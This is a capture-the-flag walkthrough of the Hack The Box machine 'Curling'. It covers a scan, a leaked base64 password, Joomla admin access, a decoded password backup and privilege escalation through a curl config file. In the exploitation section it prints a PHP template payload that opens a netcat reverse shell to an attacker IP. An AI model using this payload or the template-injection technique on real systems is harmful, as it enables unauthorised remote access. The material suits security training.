 ```yaml
---
title: "HTB - Curling"
permalink: /Curling/
layout: single
author-profile: true
---
```

## Scanning
```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -Pn -p22,80 -A 10.10.10.150
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-03 04:52 EDT
Nmap scan report for 10.10.10.150
Host is up (0.028s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
|   256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
|_  256 c1:2a:35:44:30:0c:5b:56:6a:3f:a5:cc:64:66:d9:a9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Home
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

First I searched for apache vulnerbilities but did not find anything useful so I went on to manually exploring the webpage.

since the webpage is titled `Cewl Curling Site` I used cewl to get a wordlist incase I needed it later.

I then looked at the page source and found a reference to a file called secret.txt, This file contains a base64 encoded string.

``Q3VybGluZzIwMTgh``

Using CyberChef I decoded this as:

``Curling2018!``

we have a password but no username. I continue to look around the site and start to make a username list:

```
Super User
admin
Floris
```

Using Floris I was able to get access to an account. This account also has access to the Joomla admin panel but not ssh to the server.

## Exploitation

navigating to the template folder I can create a file in the protostart template. This will allow me to execute a reverse shell using php

```
<?php
    system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 4444 >/tmp/f');
?>
```

On netcat I got a shell as www-data 

```
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 4444                                               
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.150] 59054
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

After navigating to floris' home folder, I find a password backup:
```
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48                                ...H
```

I copied this text and pasted it in a text file using nano.

To decrypt this backup I needed to use xxd.

``xxd -r password backup`` 

This didn't work so i tried outputting it to a file.

``xxd -r password backup > backup``

running ``file backup`` I found out it was a bzip2 file.

I decreypted it to just get another encrypted file. This was excryipted usign gzip. Doing this a few more times, I was able to get a password.txt file.

```
┌──(kali㉿kali)-[~]
└─$ tar -vxf backup       
password.txt
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ cat password.txt    
5d<wdCbdZu)|hChXll
```
This password allowed me to login to floris' account using ssh.

```
floris@curling:~$ whoami
floris
floris@curling:~$ ls
admin-area  password_backup  user.txt
floris@curling:~$ cat user.txt
65dd1df0713b40d88ead98cf********
```
Going into the `admin-area` directory, I found a input and a reoprt file.

It looks like teh report file is taking the input and using curl to connect to the address which is in the input file.

I chcanged the file from:

```
url = "http://127.0.0.1"

```
to:
```
file = "http:///root/root.txt"
```
I then used ``watch cat report`` to view the output everytime the file is run, this gave us the root flag.

```
Every 2.0s: cat report                                                                                                                                                                                     curling: Fri Jun  3 10:19:23 2022

82c198ab6fc5365fdc6da2ee********
```
